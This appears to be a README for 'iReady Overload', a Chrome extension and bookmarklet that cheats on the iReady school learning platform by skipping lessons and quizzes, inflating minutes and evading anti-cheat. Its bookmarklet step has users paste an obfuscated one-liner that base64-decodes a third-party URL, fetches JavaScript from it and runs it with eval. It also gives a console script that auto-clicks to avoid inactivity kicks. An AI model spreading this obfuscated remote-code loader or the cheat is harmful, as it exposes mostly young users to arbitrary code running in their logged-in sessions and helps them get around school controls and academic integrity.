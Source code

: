 <h1 align="center">iReady Overload</h1>
<h3 align="center">One of the BEST up to date iReady hacks.</h3>
<h2 align="center">Discord Support Server: https://discord.gg/scs9eapdS7</h2>

iReady is awful. It's the worst education tool anyone could ever use. I'm fed up with being forced to mindlessly watch the result of a greedy corporation that doesn't try in the SLIGHTEST to make their product enjoyable, or even acceptable. This repository is a collection of hacks and a chrome extension that ensures nobody has to suffer through iReady ever again. The current version has a lesson, quiz skipper, and a minutes hack.

I am not the creator of this project, I am constanting updating the program to work with iReady's code. THIS is a cheat, I am not responsible if iReady sends info to your teachers that you are using this program it is not my fault. credit to ArjhanToteck for originally making this and also cupiditys (but they both deleted their project.) 


## How To Use:

Download the chrome extension by downloading the files
Go to "chrome://extensions/", and on the top right make sure "Developer mode" is turned on (if your school blocks this, see the bookmarklet below) then unzip chromeExtension.zip and drag the "iReady Overload" folder onto the page and ur good.

## Bookmarklet

- A bookmarklet can be used instead of the chrome extension, incase your school has blocked extentions. To do this:

-   Make a bookmark (the star on the right side of the top url/search bar if you are using chrome)
-   Click on more at the bottom left corner
-    Delete everything in the url box
-    Type javascript:
-    Paste in the following code fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vY3VwaWRpdHlzL3Jhdy91cGxvYWQvdjE2MzgzNDExMjEvYm9va21hcmtsZXQuanM=')).then((res) => res.text().then((t) => eval(t))) (this will make iReady Overload auto-update)
    
- Alternatively, you can use this version if the other one is not working for whatever reason (this one will not auto-update)

## How to avoid being AFK-kicked

press ctrl + shift + i, press console tab at top and paste the stuff below in and obviously press enter.
```
setInterval(lol, 60000)
function lol() {
    document.getElementById("btn-footer-MY_PROGRESS").click()
    document.getElementById("btn-footer-TO_DO").click()
}
```

# Extra

credit to ArjhanToteck for originally making this and Cupiditys (but they deleted their project/repo)

I am also updating the program whenever I can to fit iReady anti-cheat. If you have any problems, issue a ticket in our discord above.
